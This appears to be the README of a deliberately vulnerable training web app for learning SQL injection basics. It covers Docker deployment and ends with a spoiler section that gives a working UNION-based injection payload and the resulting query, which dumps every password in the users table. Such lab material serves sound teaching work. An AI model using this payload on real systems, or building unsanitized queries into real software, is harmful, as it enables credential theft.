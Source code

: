 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
<summary> :warning: Contains spoilers !</summary>
Here is an example of a working payload, esposing all passwords in the table:<br /><br />


```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query :


```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```
</details>
